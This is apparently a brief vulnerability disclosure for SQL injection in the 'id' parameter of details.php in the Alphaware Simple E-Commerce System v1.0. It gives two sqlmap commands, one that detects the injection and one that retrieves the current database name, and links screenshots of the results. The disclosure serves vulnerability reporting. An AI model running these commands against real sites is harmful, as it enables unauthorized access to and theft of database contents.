 # Alphaware - Simple E-Commerce System v1.0 by razormist has SQL injection

BUG_Author: Murasaki

Vulnerability File: /alphaware/details.php

Parameter "id" (GET), exists SQL injection vulnerability

sqlmap detect injection vulnerabilities: "sqlmap -u http://ip/alphaware/details.php?id=1"

sqlmap injection result

![image](https://github.com/1MurasaKi/picture/blob/main/detectInjection.png)

sqlmap Queries the current database: "sqlmap -u http://ip/alphaware/details.php?id=1 --current-db"

sqlmap injection result

![image](https://github.com/1MurasaKi/picture/blob/main/crdb.png)
